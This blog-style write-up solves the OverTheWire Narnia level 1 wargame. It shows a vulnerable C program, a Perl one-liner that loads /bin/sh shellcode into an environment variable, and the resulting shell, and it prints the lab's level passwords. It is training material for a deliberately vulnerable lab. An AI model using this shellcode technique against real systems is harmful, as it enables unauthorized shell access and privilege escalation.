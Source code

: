 ```yaml
---
layout: post
title:  "Narnia Level 1"
date:   2015-10-02 12:52
categories: narnia wargame pwnable overthewire
author: Leander
---
```


This is a solution guide to the Narnia1 Level at [overthewire](http://overthewire.org/wargames/narnia/) This write-up was first created on 27 February 2015.
<!--break-->

First connect to the lab
<ul><li>ssh narnia1@narnia.labs.overthewire.org</li>
<li>Enter the following as the password efeidiedae</li></ul>

Change directories to the narnia games folder `cd /narnia`. Next, let's examine how we get the password for the next level `less narnia1.c`.

{% highlight c linenos %}
int main(){
        int (*ret)();

        if(getenv("EGG")==NULL){    
                printf("Give me something to execute at the env-variable EGG\n");
                exit(1);
        }

        printf("Trying to execute EGG!\n");
        ret = getenv("EGG");
        ret();

        return 0;
}
{% endhighlight %}

So this seems to be a pretty easy challenge. When we examine the source code we can see that the first thing that occurs is that a void pointer is created. Next, there are two functions that get an environment variable called "EGG" and if the "EGG" environment variable exists then it retrieves the pointer to that environment variable and stores it in ret. Last it will execute whatever "EGG" is pointing to as a function call. Essentially, it will attempt to execute anything that is placed in "EGG".

So the first step is to grab some shellcode from [shell-storm](http://shell-storm.org/shellcode/files/shellcode-811.php) Next, we grab all the bytes and place them into the "EGG" environment variable:

<figure class="highlight"><pre><code class="language-text" data-lang="text">export EGG=`perl -e 'print "\x31\xc0\x50\x68\x2f\x2f\x73" . "\x68\x68\x2f\x62\x69\x6e\x89" . "\xe3\x89\xc1\x89\xc2\xb0\x0b" . "\xcd\x80\x31\xc0\x40\xcd\x80"'`</code></pre></figure>

Third, we run the vulnerable program with `./narnia1` and check that out. Now we have a shell!

Let's doublecheck our creds with `whoami` and we get:

<figure class="highlight"><pre><code class="language-text" data-lang="text">$ whoami
narnia2
$ </code></pre></figure>

So now we can retrieve our password like so:

<figure class="highlight"><pre><code class="language-text" data-lang="text">$ cat /etc/narnia_pass/narnia2
nairiepecu
$</code></pre></figure>

BINGO! level 2 password is ```nairiepecu```
